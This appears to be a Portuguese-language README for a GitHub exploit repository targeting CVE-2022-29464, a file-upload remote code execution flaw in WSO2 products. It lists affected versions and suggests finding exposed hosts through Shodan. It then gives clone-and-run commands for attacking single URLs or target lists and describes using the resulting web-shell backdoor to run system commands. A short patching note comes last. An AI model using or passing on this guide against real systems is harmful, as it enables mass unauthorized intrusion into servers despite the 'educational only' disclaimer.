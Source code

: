 # WSO2RCE

A [CVE-2022-29464](https://docs.wso2.com/display/Security/Security+Advisory+WSO2-2021-1738) afeta alguns produtos *WSO2* como *WSO2 API Manager* e *WSO2 Open Banking*, permitindo upload arbitrário de arquivos e execução remota de código.

**Produtos afetados:**

 - WSO2 API Manager 2.2.0, up to 4.0.0  
 - WSO2 Identity Server 5.2.0, up to 5.11.0  
 - WSO2 Identity Server Analytics 5.4.0, 5.4.1, 5.5.0, 5.6.0  
 - WSO2 Identity Server as Key Manager 5.3.0, up to 5.11.0  
 - WSO2 Enterprise Integrator 6.2.0, up to 6.6.0  
 - WSO2 Open Banking AM 1.4.0, up to 2.0.0  
 - WSO2 Open Banking KM 1.4.0, up to 2.0.0

# PoC

*Aviso: Apenas para fins educativos.*
## Encontrando alvos
Em plataformas como Shodan ou zoomye é possível identificar inúmeros hosts publicados na internet utilizando produtos WSO2.

![Shodan](/imagens/shodan.png?raw=true "Shodan")

## Baixe o exploit
Clone este repositório:


    git clone https://github.com/lolminerxmrig/WSO2RCE && cd WSO2RCE && pip install rich
    python3 1.py -f 1.txt



## Executando o exploit
Para iniciar o ataque utilize o comando -u para indicar uma única URL como alvo ou -f para um arquivo com múltiplos alvos:

    python run.py -u https://alvo.com/
    python3 1.py -f 1.txt

![python3 run.py -f alvos.txt](imagens/run.png?raw=true "python3 run.py -f alvos.txt")

## Acessando a backdoor
Ao acessar a backdoor pela URL gerada na execução do script é possível interagir com o campo de texto inserindo comandos do sistema e recebendo a resposta na página.

![shell](/imagens/passwd.png?raw=true "Pwned")

## SOLUÇÃO

O WSO2 forneceu mitigações temporárias aos clientes em janeiro de 2022 e forneceu as correções para todas as versões de produtos com suporte listadas na [Matriz de Suporte do WSO2](https://wso2.com/products/support-matrix/) (status "disponível" e "obsoleto") em fevereiro. Se você for um cliente WSO2 com uma Assinatura de Suporte, use as [Atualizações WSO2](https://wso2.com/updates/) para aplicar a correção.

Para mais detalhes acesse: https://docs.wso2.com/display/Security/Security+Advisory+WSO2-2021-1738


